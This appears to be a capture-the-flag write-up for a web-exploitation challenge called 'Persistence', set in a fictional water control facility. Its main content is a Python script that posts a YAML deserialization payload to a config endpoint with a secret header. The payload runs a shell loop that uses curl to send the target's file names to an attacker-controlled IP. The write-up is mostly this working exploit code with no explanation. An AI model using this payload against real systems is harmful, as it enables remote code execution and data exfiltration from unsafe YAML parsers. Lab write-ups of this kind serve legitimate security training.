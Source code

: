 ```yaml
---
title: Persistence
categories: Web Exploitation
tags: 
draft: true
completedDuringEvent: true
submitted: true
points: 60
solves: -1
flag: THM{REDACTED}
---
```

> After the notorious malware strike on the Virelia Water Control Facility, phantom alerts and erratic sensor readings plague a system that was supposed to be fully remediated.
>
> As a Black Echo red-team specialist, you must penetrate the compromised portal, unravel its hidden persistence mechanism, and neutralise the backdoor before it can be reactivated.

---

```py
import requests

payload = (
    '!!python/object/apply:os.system ["bash -c '
    "'for i in $(ls); do curl http://10.17.37.98/$i; done'\"]"
)

headers = {"X-FTW": "secr3tFTW192d2390", "Content-Type": "application/x-yaml"}

res = requests.post(
    "http://10.10.232.80:8080/config/update", data=payload, headers=headers
)
print(res.status_code, res.text)
```
